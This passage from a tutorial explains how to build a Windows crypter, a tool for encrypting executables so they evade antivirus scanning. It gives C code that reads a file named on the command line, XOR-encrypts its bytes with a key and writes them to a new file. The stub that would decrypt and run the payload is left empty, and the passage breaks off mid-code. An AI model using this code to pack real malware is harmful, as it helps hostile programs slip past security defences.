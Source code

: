 Moving onto the crypter routine, we’ll require the handle to the specified file of `__argv[1]` and its size so we can copy its bytes into a buffer to crypt.

```c
int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    if (__argc < 2) {
        // stub routine
    } else {
        // crypter routine
        // open file to crypt
        HANDLE hFile = CreateFile(__argv[1], FILE_READ_ACCESS, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
        // get file size
        DWORD dwFileSize = GetFileSize(hFile, NULL);
        
        // crypt and get crypted bytes
        LPVOID lpFileBytes = Crypt(hFile, dwFileSize);
    }

    return EXIT_SUCCESS;
}
```

The `Crypt` function will essentially read the file contents into a buffer and then crypt them and then return a pointer to the buffer with the encrypted bytes.

```c
LPVOID Crypt(HANDLE hFile, DWORD dwFileSize) {
    // allocate buffer for file contents
    LPVOID lpFileBytes = malloc(dwFileSize);
    // read the file into the buffer
    ReadFile(hFile, lpFileBytes, dwFileSize, NULL, NULL);

    // apply XOR encryption
    int i;
    for (i = 0; i < dwFileSize; i++) {
        *((LPBYTE)lpFileBytes + i) ^= Key[i % sizeof(Key)];
    }

    return lpFileBytes;
}
```

Now that we have the encrypted bytes, we will need to create a new file and then write these bytes into it.

```c
int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    if (__argc < 2) {
        // stub routine
    } else {
        // crypter routine
        
        ...

        // get crypted file name in current directory
        CHAR szCryptedFileName[MAX_PATH];
        GetCurrentDirectory(MAX_PATH, szCryptedFileName);
        strcat(szCryptedFileName, "\\");
        strcat(szCryptedFileName, CRYPTED_FILE);
        // open handle to new crypted file
        HANDLE hCryptedFile = CreateFile(szCryptedFileName, FILE_WRITE_ACCESS, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

        // write to crypted file
        WriteFile(hCryptedFile, lpFileBytes, dwFileSize, NULL, NULL);
        CloseHandle(hCryptedFile);
```